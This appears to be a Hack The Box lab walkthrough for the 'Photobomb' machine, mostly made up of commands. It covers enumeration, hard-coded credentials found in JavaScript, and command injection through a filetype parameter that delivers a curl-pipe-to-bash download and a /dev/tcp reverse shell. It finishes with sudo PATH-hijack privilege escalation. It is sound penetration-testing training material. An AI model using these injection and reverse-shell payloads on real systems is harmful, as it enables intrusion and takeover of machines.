 # 📸 HTB: Photobomb – Command & Exploitation Guide

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.182
nmap -p 22,80 -sCV 10.10.11.182
```

### Host Mapping
```bash
echo "10.10.11.182 photobomb.htb" | sudo tee -a /etc/hosts
```

### Fuzz for Subdomains
```bash
ffuf -u http://10.10.11.182 -H "Host: FUZZ.photobomb.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

---

## 🌐 [Website Enumeration](HTTP)

### Locate JavaScript with Creds
Check source for:
```html
<script src="/static/photobomb.js"></script>
```

Look for:
```js
// Jameson: pre-populate creds for tech support...
'href','http://pH0t0:b0Mb!@photobomb.htb/printer'
```

### Feroxbuster Directory Scan
```bash
feroxbuster -u http://photobomb.htb -x php,html,txt \
-w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

---

## ⚙️ Authenticated Image Panel

### Example POST Request for Image Processing
```http
POST /printer HTTP/1.1
Authorization: Basic cEgwdD...==  # Base64 of pH0t0:b0Mb!
Content-Type: application/x-www-form-urlencoded

photo=wolfgang.jpg&filetype=png&dimensions=1000x1000
```

---

## 💣 Command Injection via filetype Parameter

### POC: Confirm Injection
```bash
filetype=png;sleep+5
```

### Reverse Shell Payload
Start a listener:
```bash
nc -lnvp 443
```

Host this on your webserver as `shell.sh`:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

Send payload:
```http
filetype=png;curl+10.10.14.6/shell.sh|bash
```

---

## 🧑‍💻 Shell as `wizard`

### Stabilize Shell
```bash
script /dev/null -c bash
# CTRL+Z
stty raw -echo; fg
reset
export TERM=screen
```

---

## 🚀 Privilege Escalation to Root

### Check Sudo Rights
```bash
sudo -l
# Output:
# (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

### Review `/opt/cleanup.sh`
```bash
cat /opt/cleanup.sh
```

Notable line:
```bash
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

---

## 🔓 Privesc Option 1 – PATH Hijack

### Create Fake `find` in Current Directory
```bash
echo -e '#!/bin/bash\nbash' > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

---

## 🔓 Privesc Option 2 – Bash Builtin `[`

### `.bashrc` disables builtin:
```bash
enable -n [  # disables Bash builtin [
```

### Exploit Disabled `[`
```bash
echo -e '#!/bin/bash\nbash' > [
chmod +x [
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

---

## 🏁 Flags

### User Flag
```bash
cat /home/wizard/user.txt
```

### Root Flag
```bash
cat /root/root.txt
```